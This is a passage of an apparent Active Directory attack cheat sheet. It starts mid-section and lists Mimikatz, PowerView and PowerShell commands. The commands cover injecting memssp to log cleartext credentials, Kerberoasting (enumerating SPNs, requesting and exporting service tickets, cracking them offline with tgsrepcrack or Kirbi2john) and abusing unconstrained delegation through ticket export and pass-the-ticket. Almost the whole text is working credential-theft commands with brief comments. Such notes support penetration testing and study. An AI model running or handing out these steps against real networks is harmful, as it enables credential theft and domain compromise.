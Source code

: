 after the modification:

2 options:
```powershell
Mimikatz# misc::memssp
# all credentials gonna be stored in cleartext on kiwissp.log file
```


## Kerberoast

> Crack the password offline from the TGS

klist = can list all tickets in memory

enum the all services:
```powershell
1. setspn -Q */* 
```

select account of user:
```powershell
2. Get-NetUser -SPN
```

we can also ask for a ticket manually:
```powershell
2. Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <SPN Name>
```

> with the ticket in memory, we can export the ticket to a file

```powershell
Mimikatz# kerberos::list /export
```

two tools for cracking the ticket:
```powershell
1. TGSRepCrack
  python.exe .\tgsrepcrack.py <wordlist> <file.kirbi>

2. Kirbi2john
```


## Kerberoast Delegation

### Unconstrained Delegation

```powershell
> Powerview
Get-NetComputer -UnConstrained
```

```powershell
> ADmodule
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}

Mimikatz# sekurlsa::tickets /export
Mimikatz# kerberos::ptt <path to the ticket>
```
